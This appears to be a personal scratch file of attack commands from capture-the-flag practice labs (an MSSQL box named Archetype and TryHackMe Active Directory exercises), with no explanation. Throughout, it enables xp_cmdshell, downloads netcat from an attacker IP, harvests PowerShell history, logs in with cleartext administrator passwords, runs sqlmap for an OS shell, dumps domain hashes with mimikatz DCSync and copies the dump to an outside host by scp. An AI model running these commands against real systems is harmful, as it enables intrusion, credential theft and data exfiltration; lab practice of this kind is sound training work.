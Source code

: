 
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.17.59.71/nc64.exe -outfile nc64.exe"


xp_cmdshell "powershell -c cd C:\Users\sql_svc\Desktop;dir"


xp_cmdshell "type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt"

\\Archetype\backups /user:administrator MEGACORP_4dm1n!!

evil-winrm -i 10.129.95.187 -u administrator -p MEGACORP_4dm1n!!

b91ccec3305e98240082d4474b848528

sqlmap -u http://10.129.9.183/dashboard.php?search=1 --cookie=lmfilutn16chv6vmukdsk6gmno -p "search" -- --batch 

sqlmap -u http://10.129.112.148/dashboard.php?search='test=+' --cookie="PHPSESSID=vi81imss7id1j1ac83naebhdst" --os-shell

lmfilutn16chv6vmukdsk6gmno

systemd-resolve --interface persistad --set-dns 10.200.86.100 --set-domain za.tryhackme.loc

ssh za\\pauline.hargreaves@thmwrk1.za.tryhackme.loc

Your credentials have been generated: 
Username: pauline.hargreaves 
Password: ld0nCTVbM

用户名：Administrator
密码：tryhackmewouldnotguess1@
域：ZA

ssh za\\Administrator@thmwrk1.za.tryhackme.loc

lsadump::dcsync /domain:za.tryhackme.loc /user:test

C:\Tools\mimikatz_trunk\x64\dcdump_tim.txt

scp -P 8000 C:\Tools\mimikatz_trunk\x64\dcdump_tim.txt root@10.50.83.86:/root 

evil-winrm -i 10.200.86.248 -u Administrator -p tryhackmewouldnotguess1@

download C:\Tools\mimikatz_trunk\x64\dcdump_tim.txt

cat grep 'krbtgt|NTLM'
